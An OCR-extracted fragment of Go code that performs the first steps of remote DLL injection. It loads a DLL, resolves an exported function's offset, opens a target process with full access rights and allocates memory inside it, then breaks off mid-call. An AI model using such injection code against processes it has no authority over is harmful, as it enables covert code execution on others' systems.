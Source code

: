 ```go
	functionName := "GobServer"

	dllHandle, err := syscall.LoadLibrary(targetDll)
	if err != nil {
		fmt.Println("Failed to load DLL:", err)
		return
	}

	fmt.Printf("DLL Handle: %#x\n", dllHandle)

	defer syscall.FreeLibrary(dllHandle)

	functionAddress, err := syscall.GetProcAddress(dllHandle, functionName)
	if err != nil {
		fmt.Println("Failed to get function address:", err)
		return
	}

	offset := uintptr(functionAddress) - uintptr(unsafe.Pointer(dllHandle))

	fmt.Printf("DLL Base Address: %#x\n", uintptr(unsafe.Pointer(dllHandle)))
	fmt.Printf("Function Address: %#x\n", functionAddress)
	fmt.Printf("Function Offset: %#x\n", offset)

	// open process
	ph, op2, err := openProcess.Call(
		PROCESS_ALL_ACCESS,
		FALSE,
		uintptr(pid),
	)

	if err != nil {
		fmt.Println("Results of openProcess:", err)
	}

	if ph == 0 {
		fmt.Println("Failed to open process")
		return
	}
	fmt.Printf("Process handle: %#x\n", ph)
	fmt.Println(op2)
	defer closeHandle.Call(ph)

	rb, va2, err := virtualAllocEx.Call(
		uintptr(ph),
		0,
		uintptr(uintptr(dllLength)*2),
		uintptr(MEM_RESERVE|MEM_COMMIT),
		uintptr(PAGE_READ_WRITE),
	)
	if err != nil {
		fmt.Println("Results of virtualAllocEx:", err)
	}

	if rb == 0 {
		fmt.Println("Failed to allocate memory")
		return
	}
	fmt.Printf("rb: %#x\n", rb)
	fmt.Printf("va2: %#x\n", va2)
	defer virtualFreeEx.Call(
		rb,
		0,
```